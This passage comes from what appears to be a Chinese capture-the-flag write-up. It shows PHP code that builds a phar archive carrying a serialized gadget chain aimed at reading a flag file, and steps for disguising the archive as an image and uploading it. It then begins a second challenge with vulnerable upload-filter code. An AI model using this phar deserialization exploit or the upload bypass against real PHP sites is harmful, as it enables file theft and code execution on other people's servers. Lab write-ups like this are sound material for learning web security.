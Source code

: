 	class Show
	{
	    public $source;
	    public $str;
	    public function __construct()
	    {
	        $this->str['str']=new Test();
	    }
	}
	class Test
	{
	    public $file;
	    public $params;
	    public function __construct()
	    {
	        $this->params['source']="/var/www/html/f1ag.php";
	    }
	
	}
	
	$c1e4r = new C1e4r();
	
	
	
	$phar = new Phar("exp.phar"); //.phar文件
	$phar->startBuffering();
	$phar->setStub('<?php __HALT_COMPILER(); ? >'); //固定的
	$phar->setMetadata($c1e4r); //触发的头是C1e4r类，所以传入C1e4r对象
	$phar->addFromString("exp.txt", "test"); //随便写点什么生成个签名
	$phar->stopBuffering();
	
	?>
	```



生成的phar文件后缀改为`array("gif","jpeg","jpg","png")之中的`    
上传        
`/upload/`----->目录开着（还可以这样。。。）
![06.png](https://sc04.alicdn.com/kf/U7ef653ef22384f92b3c62d63c9147bf27.jpg)
复制文件名，访问即可得到flag         
![05.png](https://ae03.alicdn.com/kf/U8f7e66d8be4549688e1d94f262ca86f6I.jpg)     

### EasyWeb       




	```php
	 <?php
	function get_the_flag(){
	    // webadmin will remove your upload file every 20 min!!!! 
	    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
	    if(!file_exists($userdir)){
	    mkdir($userdir);
	    }
	    if(!empty($_FILES["file"])){
	        $tmp_name = $_FILES["file"]["tmp_name"];
	        $name = $_FILES["file"]["name"];
	        $extension = substr($name, strrpos($name,".")+1);     ##文件后缀
	    if(preg_match("/ph/i",$extension)) die("^_^"); 
	        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");  ##文件中过滤了<?
	    if(!exif_imagetype($tmp_name)) die("^_^");   ##头文件检测
	        $path= $userdir."/".$name;
	        @move_uploaded_file($tmp_name, $path);
	        print_r($path);
	    }
	}
